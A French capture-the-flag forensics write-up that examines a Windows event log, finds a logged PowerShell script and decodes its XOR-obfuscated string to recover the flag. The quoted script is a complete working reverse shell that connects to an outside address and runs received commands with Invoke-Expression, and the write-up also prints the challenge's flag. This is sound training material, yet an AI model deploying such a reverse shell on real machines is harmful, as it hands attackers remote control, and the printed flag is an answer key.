

# Forensics - La Gazette Windows

## Challenge description



## Résolution

En regardant le fichier, on se rend compte qu'il s'agit d'un fichier de type `Windows Event Log` (extension `.evtx`).

On peut l'ouvrir sous windows, avec l'observateur d'évènements. On voit alors qu'un script powershell a été exécuté. 

```powershell
    Création du texte Scriptblock (1 sur 1) : 
    do {
        Start-Sleep -Seconds 1
        try{
            $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
        } catch {}
    } until ($TCPClient.Connected)
    $NetworkStream = $TCPClient.GetStream()
    $StreamWriter = New-Object IO.StreamWriter($NetworkStream)
    function WriteToStream ($String) {
        [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
        $StreamWriter.Write($String + 'SHELL> ')
        $StreamWriter.Flush()
    }
    $l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
    $s = ""
    for ($i = 0; $i -lt 72; $i++) {
        $s += [char]([int]$l[$i] -bxor $i)
    }
    WriteToStream $s
    while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
        $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
        $Output = try {
                Invoke-Expression $Command 2>&1 | Out-String
            } catch {
                $_ | Out-String
            }
        WriteToStream ($Output)
    }
    $StreamWriter.Close()
```

En lisant le code, on se rend compte qu'il faut récupérer la chaîne de caractères `$s` et la décoder. La chaine `$s` est fabriquée à partir de `$l`. 
Comme c'était un script powershell, on peut tout simplement récupérer `$l` et `$s` avec ce code :

```powershell
    $l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
    $s = ""
    for ($i = 0; $i -lt 72; $i++) {
        $s += [char]([int]$l[$i] -bxor $i)
    }
```

Puis on affiche `$s` :

```powershell	
    PS C:\Users\user\Desktop> $s
    FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}
```